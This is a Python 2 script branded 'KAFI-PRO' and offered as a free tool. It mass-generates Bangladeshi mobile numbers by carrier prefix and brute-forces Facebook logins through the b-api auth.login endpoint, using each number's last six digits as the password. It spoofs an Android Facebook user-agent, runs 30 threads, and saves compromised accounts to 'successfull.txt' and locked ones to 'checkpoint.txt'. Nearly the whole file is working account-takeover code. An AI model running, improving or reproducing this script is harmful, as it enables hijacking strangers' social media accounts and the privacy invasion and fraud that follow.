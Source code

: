 # KAFI-PRO
import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
os.system('rm -rf .txt')
 
def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)
 
os.system('clear')
print
 
print
 
print("""
 
\033[0;94m    _  __          ______ _____
\033[0;94m| |/ /    /\   |  ____|_   _|
\033[0;96m| ' /    /  \  | |__    | |
\033[0;96m| ред  <    / /\ \ |  __|   | |
\033[0;96m| . \  / ____ \| |     _| |
\033[0;96m|  |_|\_\/_/    \_\_|    |_____|
""")
 
print("\033[0;91mThis Tool's Free By Talha islam")
 
psb('\x1b[1;92mBANGLADESH 6 DIGIT CLONING START PLEASE WAIT .....')
for n in range(90000):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()
 
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
 
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 C')
 
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
os.system('clear')
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [
 ('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]
 
def exb():
    print
    os.sys.exit()
 
 
def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)
 
 
def t():
    time.sleep(1)
 
 
def cb():
    os.system('clear')
 
logo = """
                                                                      
\033[0;94m    _  __          ______ _____
\033[0;94m |/ /    /\   |  ____|_   _|
\033[0;96m   ' /    /  \  | |__    | |
\033[0;96m   <    / /\ \ |  __|   | |
\033[0;96m   . \  / ____ \| |     _| |
\033[0;96     |_|\_\/_/    \_\_|    |_____|

"""
 
back = 0
successful = []
cpb = []
oks = []
id = []
 
def menu():
    os.system('clear')
    print logo
    print ''
    print '\033[0;93mAUTHOR   : Abdullah hil kafi Nayem'
    print '\033[0;94mFACEBOOK : https://www.facebook.com/nayemvai07'
    print '\033[0;96mGITHUB   : King-Nayem'
    print ''
    print '\033[0;90mONLY BANGLADESHI ACCOUNTS ARE AVAILABLE'
    print '\033[0;91m'
    print 50* '-'
    print '\033[0;92m[1]  \x1b[1;93mGP'
    print '\033[0;95m[2]  \x1b[1;95mRobi'
    print '\033[0;94m[3]  \x1b[1;94mAirtel'
    print '\033[0;92m[4]  \x1b[1;92mBanglalink'
    print '\033[0;96m[5]  \x1b[1;96mTeletalk'
    print '\033[0;90m[0]  \x1b[1;90mExit            '
    print '\033[0;91m'
    print 50 * '-'
    action()
 
 
def action():
    global cpb
    global oks
    bch = raw_input('\033[0;93m\n> ')
    if bch == '':
        print
        action()
    elif bch == '1':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '170,171, 172, 173, 174, 175, 176, 177, 178, 179,130,131, 132, 133, 134, 135, 136, 137, 138, 139'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '2':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '180,181, 182, 183, 184, 185, 186, 187, 188, 189'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '3':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '160,161, 162, 163, 164, 165, 166, 167, 168, 169'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '4':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '190,191, 192, 193, 194, 195, 196, 197, 198, 199,140,141, 142, 143, 144, 145, 146, 147, 148, 149'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '5':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '150,151, 152, 153, 154, 155, 156, 157, 158, 159'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '0':
        exb()
    else:
        print
        action()
    xxx = str(len(id))
    psb('[\xe2\x9c\x93] Total Numbers: ' + xxx)
    time.sleep(0.5)
    psb('[\xe2\x9c\x96] Please wait, process is running ...')
    time.sleep(0.5)
    psb('[!] To Stop Process Press CTRL Then Press z')
    time.sleep(0.5)
    psb(50 * '-')
    time.sleep(0.5)
    print
    50 * '-'
    print
 
    def main(arg):
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
 
        try:
            result = k + c + user
            digi6 = result[8:14]
            pass1 = digi6
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[KAFI-HACKED]\x1b[0m ' + k + c + user + ' | ' + pass1 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '|' + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;91m[KAFI-CP]\x1b[0m ' + k + c + user + ' | ' + pass1 + '\x1b[1;92m \x1b[0m \n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '|' + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
        except:
            pass
 
    p = ThreadPool(30)
    p.map(main, id)
    print
    50 * '-'
    print
    print
    '[\xe2\x9c\x93] Total OK/CP : ' + str(len(oks)) + '/' + str(len(cpb))
    print '[\xe2\x9c\x93] CP File Has Been Saved : save/checkpoint.txt'
    raw_input('\n[Press Enter To Go Back]')
    os.system('python2 Kafi.py')
 
 
if __name__ == '__main__':
    menu()
